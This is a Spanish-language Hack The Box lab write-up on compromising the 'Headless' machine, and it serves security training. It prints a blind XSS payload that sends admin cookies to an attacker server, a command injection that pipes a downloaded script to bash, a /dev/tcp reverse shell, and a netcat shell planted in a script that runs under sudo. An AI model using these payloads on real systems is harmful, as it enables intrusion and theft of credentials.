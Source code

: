 ```yaml
---
title: Headless
description: Headless es una máquina Linux de dificultad fácil que cuenta con un servidor Python Werkzeug que aloja un sitio web. El sitio web tiene un formulario de soporte al cliente, el cual resulta ser vulnerable a blind Cross-Site Scripting (XSS) a través del encabezado User-Agent. Esta vulnerabilidad se utiliza para robar una cookie de administrador, que luego se usa para acceder al panel de administración. La página es vulnerable a inyecciones de comandos, lo que permite obtener un shell inverso en la máquina. Al enumerar el correo del usuario, se descubre un script que no utiliza rutas absolutas, lo cual se aprovecha para obtener un shell con privilegios de root.
date: 2024-05-23
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-headless/headless_logo.png
categories:
  - Hack_The_Box
  - Machines
tags:
  - linux
  - hack_the_box
  - xss
  - os_command_injection
  - sudo_abuse
  - ssh
  - upnp
  - tcp
  - information_gathering
  - web_analysis
  - vulnerability_exploitation
  - privilege_escalation

---
```

## Information Gathering

```terminal
/home/kali/Documents/htb/machines/headless:-$ sudo nmap -sC -sV -p- 10.10.11.8
```

![](/assets/img/htb-writeup-headless/headless1.png)

```terminal
/home/kali/Documents/htb/machines/headless:-$ echo '10.10.11.8\theadless.htb' | sudo tee -a /etc/hosts
```
```terminal
/home/kali/Documents/htb/machines/headless:-$ gobuster dir -u http://10.10.11.8:5000 -w /usr/share/wordlists/dirb/big.txt
/dashboard (Status: 500) [Size:  265]
/support   (Status: 200) [Size: 2363]
```
---
## Web Analysis & Vulnerability Exploitation

![](/assets/img/htb-writeup-headless/headless1_1.png)
![](/assets/img/htb-writeup-headless/headless2.png)
![](/assets/img/htb-writeup-headless/headless3.png)
![](/assets/img/htb-writeup-headless/headless4.png)

La web presenta una vulnerabilidad de Cross-Site Scripting (XSS). Aprovechando esta vulnerabilidad, puedo robar una cookie que me permitiría autenticarme como un usuario autorizado.

Para explotar esta vulnerabilidad, intercepto una petición 'POST' del formulario ubicado en la dirección '/support'. Luego, configuro un servidor para recibir la cookie robada.
```terminal
/home/kali/Documents/htb/machines/headless:-$ python3 -m http.server 8003 
	Serving HTTP on 0.0.0.0 port 8003 http://0.0.0.0:8003/ ...
```
El ataque XSS tiene dos partes principales.

* Inyección de un script en el encabezado 'User-Agent' para robar cookies.

```
User-Agent: <script>var i=new Image(); i.src="http://10.10.16.59:8003/?cookie="+btoa(document.cookie);</script>
```

* Inyección del mismo script en un campo de formulario 'Contact Support' para robar cookies cuando se visualiza el contenido del mensaje.

```
fname=ad&lname=min&email=ad%http://40min.com/&phone=%2B55-555+5555&message=<script>var i=new Image(); i.src="http://10.10.16.59:8003/?cookie="+btoa(document.cookie);</script>
```

![](/assets/img/htb-writeup-headless/headless5.png)

```terminal
	... 10.10.11.8 - - [22/May/2024 19:36:24]
"GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```
Recibo la cookie en base64 y la descodifico.
```terminal
/home/kali/Documents/htb/machines/headless:-$ echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d 
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```
Intercepto una peticion 'GET' de la direccion '/dashboard', agrrego la nueva cookie y devuelvo la peticcion.

![](/assets/img/htb-writeup-headless/headless6.png)

Consigo autentificarme exitosamente.

![](/assets/img/htb-writeup-headless/headless7.png)

Analizando la peticion 'POST', encuentro que es vulnerable a OS Command Injection.

Creo una reverse shell y monto un servidor para que la maquina victima descarge el payload.
```terminal
/home/kali/Documents/htb/machines/headless:-$ echo "/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.16.59/4444 0>&1'" > payload.sh

/home/kali/Documents/htb/machines/headless:-$ python3 -m http.server 8001
	Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
```
Me pongo en escucha con Netcat e injecto el comando malisioso por Burpsuite.
```terminal
/home/kali/Documents/htb/machines/headless:-$ nc -nvlp 4444 
	listening on [any] 4444 ...
```

![](/assets/img/htb-writeup-headless/headless8.png)

```terminal
date=2023-09-15;curl http://10.10.16.59:8001/payload.sh%7Cbash > Send

 	...connect to [10.10.16.59] from (UNKNOWN) [10.10.11.8] 39442 

dvir@headless:~$ cat user.txt 
```

---
## Privilege Escalation

El usuiario 'dvir' puede ejecutar el comnado '/usr/bin/syscheck' como 'sudo'.

```terminal
dvir@headless:~$ sudo -l
```

![](/assets/img/htb-writeup-headless/headless9.png)

El comando '/usr/bin/syscheck' ejecuta el archivo 'initdb.sh'. Por tanto, puedo agregar un payload dentro del archivo 'initdb.sh'.

```terminal
dvir@headless:~$ cat /usr/bin/syscheck
```

![](/assets/img/htb-writeup-headless/headless10.png)

```terminal
dvir@headless:~$ echo "nc -e /bin/sh 10.10.16.59 1212" > initdb.sh
dvir@headless:~$ chmod +x initdb.sh
```
Agrego permisos de ejecucion, me pongo en escucha con Netcat y ejecuto el comando.
```terminal
/home/kali/Documents/htb/machines/headless:-$ nc -nvlp 1212
dvir@headless:~$ sudo /usr/bin/syscheck
```

![](/assets/img/htb-writeup-headless/headless11.png)

> <a href="https://www.hackthebox.com/achievement/machine/1521382/594" target="_blank">Headless Machine from Hack The Box has been Pwned</a>
{: .prompt-tip }